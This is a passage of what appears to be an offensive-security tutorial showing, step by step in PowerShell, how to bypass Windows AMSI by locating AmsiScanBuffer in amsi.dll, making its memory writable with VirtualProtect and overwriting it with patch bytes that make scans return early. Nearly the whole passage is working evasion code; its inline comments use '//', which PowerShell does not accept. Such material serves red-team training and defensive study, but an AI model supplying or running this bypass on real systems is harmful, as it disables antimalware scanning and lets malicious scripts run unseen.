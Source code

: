 ```powershell
$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
```
Now that we can call our API functions, we can identify where `amsi.dll` is located and how to get the function. First, we need to identify the process handle of AMSI using `GetModuleHandle`. The handle will then be used to identify the process address of `AmsiScanBuffer` using `GetProcAddress`.
```powershell
$handle = [Win32.Kernel32]::GetModuleHandle(
	'amsi.dll' // Obtains handle to amsi.dll
);
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress(
	$handle, // Handle of amsi.dll
	'AmsiScanBuffer' // API call to obtain
); 
```
Next, we need to modify the memory protection of the `AmsiScanBuffer` process region. We can specify parameters and the buffer address for `VirtualProtect`.

```powershell
[UInt32]$Size = 0x5; // Size of region
[UInt32]$ProtectFlag = 0x40; // PAGE_EXECUTE_READWRITE
[UInt32]$OldProtectFlag = 0; // Arbitrary value to store options
[Win32.Kernel32]::VirtualProtect(
	$BufferAddress, // Point to AmsiScanBuffer
	$Size, // Size of region
	$ProtectFlag, // Enables R or RW access to region
	[Ref]$OldProtectFlag // Pointer to store old options
); 
```
Finally we need to specify what we want to overwrite the buffer with, the process to identify this buffer can be found [here](https://rastamouse.me/memory-patching-amsi-bypass/). Once the buffer is specified, we can use [marshal copy](https://docs.microsoft.com/en-us/dotnet/api/system.runtime.interopservices.marshal.copy?view=net-6.0) to write to the process.
```powershell
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3);

[system.runtime.interopservices.marshal]::copy(
	$buf, // Opcodes/array to write
	0, // Where to start copying in source array 
	$BufferAddress, // Where to write (AsmiScanBuffer)
	6 // Number of elements/opcodes to write
); 
```
At this point our bypass should be finished, of course this is a known exploit, so trying it as is will get our code flagged.

# Automating
While preferred to use previous methods, we can use automated tools to break AMSI signatures or compile a bypass.

---
